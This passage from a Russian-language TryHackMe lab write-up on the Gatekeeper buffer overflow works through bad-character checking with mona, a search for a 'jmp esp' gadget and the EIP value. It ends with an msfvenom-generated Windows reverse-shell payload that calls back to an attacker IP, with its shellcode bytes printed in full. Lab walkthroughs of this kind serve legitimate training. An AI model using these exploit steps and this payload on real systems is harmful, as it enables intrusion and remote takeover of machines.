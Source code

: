 ```python
    run_exploit()
```

Кроме `\x00` бэдчаров нет.  
```python
!mona compare -f "c:\mona\gatekeeper\bytearray.bin" -a 01CF19F8
```
<img width="1268" height="598" alt="image" src="https://github.com/user-attachments/assets/c9aee86a-8cfd-49da-b568-69edfc2e6617" />  

### ROPgadget

Далее нужно найти функцию для вызова кода из стека, для этого использую `ROPgadget`  
```bash
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Gatekeeper/exploits]
└─$ ROPgadget --binary ./Share/gatekeeper.exe > gatekeeper.allgadgets.txt
                                                                                                                  
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Gatekeeper/exploits]
└─$ grep -iE "call esp" gatekeeper.allgadgets.txt | awk -F';' 'NF <= 2'
                                                                                                                  
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Gatekeeper/exploits]
└─$ grep -iE "jmp esp" gatekeeper.allgadgets.txt | awk -F';' 'NF <= 2'
0x080414be : adc eax, 0xb8000002 ; jmp esp
0x080414c3 : jmp esp
0x080414bd : test byte ptr [0xb8000002], dl ; jmp esp
```

Теперь EIP в скрипте можно заменить на `EIP = 0x080414c3`  
  



## 📂 Получение доступа

Следующий шаг: создание полезной нагрузки.  
Буду использовать `windows/shell_reverse_tcp` и сразу укажу свой `ip` в сети `thm`  
```bash
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Gatekeeper/exploits]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.21.104.16 LPORT=4444 -f py -b '\x00' -v stack
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of py file: 1807 bytes
stack =  b""
stack += b"\xbb\x42\xcb\xf8\x39\xda\xc5\xd9\x74\x24\xf4\x58"
stack += b"\x29\xc9\xb1\x52\x31\x58\x12\x03\x58\x12\x83\x82"
stack += b"\xcf\x1a\xcc\xfe\x38\x58\x2f\xfe\xb8\x3d\xb9\x1b"
stack += b"\x89\x7d\xdd\x68\xba\x4d\x95\x3c\x37\x25\xfb\xd4"
stack += b"\xcc\x4b\xd4\xdb\x65\xe1\x02\xd2\x76\x5a\x76\x75"
stack += b"\xf5\xa1\xab\x55\xc4\x69\xbe\x94\x01\x97\x33\xc4"
stack += b"\xda\xd3\xe6\xf8\x6f\xa9\x3a\x73\x23\x3f\x3b\x60"
stack += b"\xf4\x3e\x6a\x37\x8e\x18\xac\xb6\x43\x11\xe5\xa0"
stack += b"\x80\x1c\xbf\x5b\x72\xea\x3e\x8d\x4a\x13\xec\xf0"
stack += b"\x62\xe6\xec\x35\x44\x19\x9b\x4f\xb6\xa4\x9c\x94"
stack += b"\xc4\x72\x28\x0e\x6e\xf0\x8a\xea\x8e\xd5\x4d\x79"
stack += b"\x9c\x92\x1a\x25\x81\x25\xce\x5e\xbd\xae\xf1\xb0"
stack += b"\x37\xf4\xd5\x14\x13\xae\x74\x0d\xf9\x01\x88\x4d"
stack += b"\xa2\xfe\x2c\x06\x4f\xea\x5c\x45\x18\xdf\x6c\x75"
stack += b"\xd8\x77\xe6\x06\xea\xd8\x5c\x80\x46\x90\x7a\x57"
stack += b"\xa8\x8b\x3b\xc7\x57\x34\x3c\xce\x93\x60\x6c\x78"
stack += b"\x35\x09\xe7\x78\xba\xdc\xa8\x28\x14\x8f\x08\x98"
stack += b"\xd4\x7f\xe1\xf2\xda\xa0\x11\xfd\x30\xc9\xb8\x04"
stack += b"\xd3\xfc\x29\x6e\x33\x69\x50\x6e\x22\x35\xdd\x88"
```
